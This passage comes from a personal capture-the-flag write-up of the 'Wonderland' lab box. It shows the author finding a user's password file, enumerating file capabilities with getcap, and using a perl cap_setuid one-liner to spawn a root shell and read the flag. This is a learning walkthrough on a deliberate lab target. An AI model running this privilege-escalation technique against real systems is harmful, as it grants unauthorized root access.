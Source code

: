 `hatter`'s home directory didn't have anything useful for us, there was a file there that contains some kind of password, I tried using it to login as `root`
without any success, after a while it turned out to be `hatter`'s ssh credentiels, it didn't do me any good as `hatter` didn't have the permission to execute commands with sudo

```bash
hatter@wonderland:/home/rabbit$ cd ../hatter/
hatter@wonderland:/home/hatter$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .local  .profile  password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
[REDACTED PASSWRD]
hatter@wonderland:/home/hatter$ sudo -l
[sudo] password for hatter: 
Sorry, user hatter may not run sudo on wonderland.
hatter@wonderland:/home/hatter$
```

at this point I've been enumerating for quite some time but I hit a wall for the second time, couple hours passsed and I've decided to peak at a write up again, I found out that I should look for files with `capabilities(7)`, again something little obvious. but I probably wouldn't have known it since even tho I always heard of such things, I never interacted or took the time to get familliar with them

after some digging around I found a utlity called `getccap` that can display files with special capabilites, you can read it's man page to know more about it

```bash
hatter@wonderland:/home/hatter$ getcap -r / 2> /dev/null 
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep 
hatter@wonderland:/home/hatter$ ls -lh /usr/bin/perl5.26.1 /usr/bin/perl
-rwxr-xr-- 2 root hatter 2.1M Nov 19  2018 /usr/bin/perl
-rwxr-xr-- 2 root hatter 2.1M Nov 19  2018 /usr/bin/perl5.26.1
```

after looking up those executables in [gtfo bins](https://gtfobins.github.io/) I found a command I can use to spawn a root shell, and it worked on both binaries!

```bash
hatter@wonderland:~$ /usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
# 
```

### I'm groot

now that I'm root we can just get the `root.txt` flag

```bash
# cat /home/alice/root.txt
thm{REDACTED}
# 
```

### conclusion

wonderland was a really nice box, it had me banging my head against the wall couple times but I learned some new tricks that will probably come handy in the future, I hope you did as well, hopefully next time there would be less to no peaking at all
